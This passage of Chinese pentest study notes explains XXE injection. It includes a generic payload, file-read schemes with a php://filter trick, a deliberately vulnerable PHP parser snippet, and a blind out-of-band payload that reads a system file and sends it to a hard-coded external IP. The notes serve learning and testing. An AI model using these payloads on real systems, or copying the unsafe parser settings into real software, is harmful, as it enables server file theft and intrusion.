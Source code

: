 

### 脚本默认支持的外部实体协议

![image-20230402215316923](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XXE笔记\XXE笔记.assets\image-20230402215316923.png)

注意：PHP中，libxml2.9以上的版本php默认不会解析外部的实体类。使用`echo LIBXML_DOTTED_VERSION;`来查看PHP libxml的版本；



## 危害

参考：https://www.freebuf.com/articles/web/247639.html

### 通用payload

```
<?xml version="1.0"?>
<!DOCTYPE t [
    <!ENTITY xxe SYSTEM "file:///etc/p">
]>
<t>&xxe;</t>
```



### 文件读取（有回显）

-   File:///path/to/file.ext    # 不能直接读取php文件会报错，因为php文件里面有<>//等特殊字符；xml解析时候会当成xml语法来解析。这时候就分不清处哪个是真正的xml语句了，直接利用file协议读取PHP文件，就会产生报错。那么需要base64编码来读取
-   http://url/file.ext
-   PHP://filter/read=convert.base64-encode/resource=/home/bee/test.php  # 读取php文件



### 文件读取（无回显）

POCbox：https://github.com/0verSp4ce/PoCBox

在实际情况中，大多数情况下服务器上的 XML 并不是输出用的，所以就少了输出这一环节，这样的话，即使漏洞存在，我们的payload的也被解析了，但是由于没有输出，我们也不知道解析得到的内容是什么，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法。

**当无法直接获取响应内容时，可以将获取内容发送到远程服务器，OOB**

有以下代码：

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
```

相较于前面有回显的漏洞代码，我们去掉了内容输出的一部分。这样，用之前的payload就没有作用了。下面是可用的payload：

```xml
<!-- eval.xml -->
<!ENTITY % payload SYSTEM "file:///etc/redhat-release">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://114.132.238.148:9/?id=%payload;'>">
%int;
%trick;

<!-- 上传的文件 -->
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://114.132.238.148:9093/eval.xml">
%remote;
]>
```
